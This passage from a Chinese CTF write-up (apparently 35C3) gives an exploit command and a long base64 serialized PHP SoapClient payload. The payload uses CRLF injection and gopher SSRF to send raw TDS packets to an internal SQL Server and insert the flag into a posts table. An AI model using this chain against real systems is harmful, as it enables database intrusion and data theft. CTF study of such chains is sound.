 然后构造payload:

```php
php exploit.php  "insert into posts(userid,title,content,attachment) values (1,\"test\",(select flag
from flag.flag),\"test\");"

JHNlcmlhbGl6ZWRvYmplY3TvvIRPOjEwOiJBdHRhY2htZW50IjoxOntzOjI6InphIjtPOjEwOiJTb2FwQ2xpZW50IjozOntzOjM6InVyaSI7czozNToiaHR0cDovL2x
vY2FsaG9zdDo4MDgwL21pbmlQcm94eS5waHAiO3M6ODoibG9jYXRpb24iO3M6MzU6Imh0dHA6Ly9sb2NhbGhvc3Q6ODA4MC9taW5pUHJveHkucGhwIjtzOjExOiJfdX
Nlcl9hZ2VudCI7czoxMzQ5OiJBQUFBQUhhaGEKCkdFVCAvbWluaVByb3h5LnBocD9nb3BoZXI6Ly8vZGI6MTQzMy9BJTEyJTAxJTAwJTJGJTAwJTAwJTAxJTAwJTAwJ
TAwJTFBJTAwJTA2JTAxJTAwJTIwJTAwJTAxJTAyJTAwJTIxJTAwJTAxJTAzJTAwJTIyJTAwJTA0JTA0JTAwJTI2JTAwJTAxJUZGJTAwJTAwJTAwJTAxJTAwJTAxJTAy
JTAwJTAwJTAwJTAwJTAwJTAwJTEwJTAxJTAwJURFJTAwJTAwJTAxJTAwJUQ2JTAwJTAwJTAwJTA0JTAwJTAwdCUwMCUxMCUwMCUwMCUwMCUwMCUwMCUwMFQwJTAwJTA
wJTAwJTAwJTAwJTAwJUUwJTAwJTAwJTA4JUM0JUZGJUZGJUZGJTA5JTA0JTAwJTAwJTVFJTAwJTA3JTAwbCUwMCUwQSUwMCU4MCUwMCUwOCUwMCU5MCUwMCUwQSUwMC
VBNCUwMCUwOSUwMCVCNiUwMCUwMCUwMCVCNiUwMCUwNyUwMCVDNCUwMCUwMCUwMCVDNCUwMCUwOSUwMCUwMSUwMiUwMyUwNCUwNSUwNiVENiUwMCUwMCUwMCVENiUwM
CUwMCUwMCVENiUwMCUwMCUwMCUwMCUwMCUwMCUwMGElMDB3JTAwZSUwMHMlMDBvJTAwbSUwMGUlMDBjJTAwaCUwMGElMDBsJTAwbCUwMGUlMDBuJTAwZyUwMGUlMDBy
JTAwJUMxJUE1UyVBNVMlQTUlODMlQTUlQjMlQTUlODIlQTUlQjYlQTUlQjclQTVuJTAwbyUwMGQlMDBlJTAwLSUwMG0lMDBzJTAwcyUwMHElMDBsJTAwbCUwMG8lMDB
jJTAwYSUwMGwlMDBoJTAwbyUwMHMlMDB0JTAwVCUwMGUlMDBkJTAwaSUwMG8lMDB1JTAwcyUwMGMlMDBoJTAwYSUwMGwlMDBsJTAwZSUwMG4lMDBnJTAwZSUwMCUwMS
UwMSUwMCVGQyUwMCUwMCUwMSUwMCUxNiUwMCUwMCUwMCUxMiUwMCUwMCUwMCUwMiUwMCUwMCUwMCUwMCUwMCUwMCUwMCUwMCUwMCUwMSUwMCUwMCUwMGklMDBuJTAwc
yUwMGUlMDByJTAwdCUwMCUyMCUwMGklMDBuJTAwdCUwMG8lMDAlMjAlMDBwJTAwbyUwMHMlMDB0JTAwcyUwMCUyOCUwMHUlMDBzJTAwZSUwMHIlMDBpJTAwZCUwMCUy
QyUwMHQlMDBpJTAwdCUwMGwlMDBlJTAwJTJDJTAwYyUwMG8lMDBuJTAwdCUwMGUlMDBuJTAwdCUwMCUyQyUwMGElMDB0JTAwdCUwMGElMDBjJTAwaCUwMG0lMDBlJTA
wbiUwMHQlMDAlMjklMDAlMjAlMDB2JTAwYSUwMGwlMDB1JTAwZSUwMHMlMDAlMjAlMDAlMjglMDAxJTAwJTJDJTAwJTIyJTAwdCUwMGUlMDBzJTAwdCUwMCUyMiUwMC
UyQyUwMCUyOCUwMHMlMDBlJTAwbCUwMGUlMDBjJTAwdCUwMCUyMCUwMGYlMDBsJTAwYSUwMGclMDAlMjAlMDBmJTAwciUwMG8lMDBtJTAwJTIwJTAwZiUwMGwlMDBhJ
TAwZyUwMC4lMDBmJTAwbCUwMGElMDBnJTAwJTI5JTAwJTJDJTAwJTIyJTAwdCUwMGUlMDBzJTAwdCUwMCUyMiUwMCUyOSUwMCUzQiUwMCUzQiUwMC0lMDAtJTAwJTIw
JTAwLSUwMCBIVFRQLzEuMQpIb3N0OiBsb2NhbGhvc3QKCiI7fX0=
```

用python发送这个base64解码之后的content,就可以打到flag了。


去年34c3CTF的时候出SSRF打mysql，35c3CTF的时候出SSRF打sql server 。c3CTF真是太真实了，大胆猜一下，明年打哪个数据库？  

